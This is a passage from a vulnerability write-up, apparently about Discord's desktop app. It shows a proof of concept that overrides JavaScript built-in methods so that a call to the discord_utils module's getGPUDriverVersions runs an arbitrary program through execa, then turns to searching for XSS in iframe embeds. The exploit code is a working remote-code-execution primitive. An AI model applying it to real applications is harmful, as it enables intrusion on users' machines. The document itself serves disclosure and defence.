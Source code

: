 Here, I couldn't use modules that can be used for RCE directly, such as child_process module, but I found a code where RCE can be achieved by overriding the JavaScript built-in methods and interfering with the execution of the exposed module.

The following is the PoC. I was able to confirm that the calc application is popped up when I call the getGPUDriverVersions function which is defined in the module called "discord_utils" from devTools, while overriding the RegExp.prototype.test and Array.prototype.join.

    RegExp.prototype.test=function(){
        return false;
    }
    Array.prototype.join=function(){
        return "calc";
    }
    DiscordNative.nativeModules.requireModule('discord_utils').getGPUDriverVersions();

The getGPUDriverVersions function tries to execute the program by using the "execa" library, like the following:

    module.exports.getGPUDriverVersions = async () => {
      if (process.platform !== 'win32') {
        return {};
      }

      const result = {};
      const nvidiaSmiPath = `${process.env['ProgramW6432']}/NVIDIA Corporation/NVSMI/nvidia-smi.exe`;

      try {
        result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []));
      } catch (e) {
        result.nvidia = {error: e.toString()};
      }

      return result;
    };

Usually the execa tries to execute "nvidia-smi.exe", which is specified in the nvidiaSmiPath variable, however, due to the overridden RegExp.prototype.test and Array.prototype.join, the argument is replaced to "calc" in the execa's internal processing.

Specifically, the argument is replaced by changing the following two parts.

https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36

https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55

The remaining work is to find a way to execute JavaScript on the application. If I can find it, it leads to actual RCE.
XSS in iframe embeds

As explained above, I found that RCE could happen from arbitrary JavaScript execution, so I was trying to find an XSS vulnerability. The app supports the autolink or Markdown feature, but looked like it is good. So I turned my attention to the iframe embeds feature. The iframe embeds is the feature which automatically displays the video player on the chat when the YouTube URL is posted, for example.

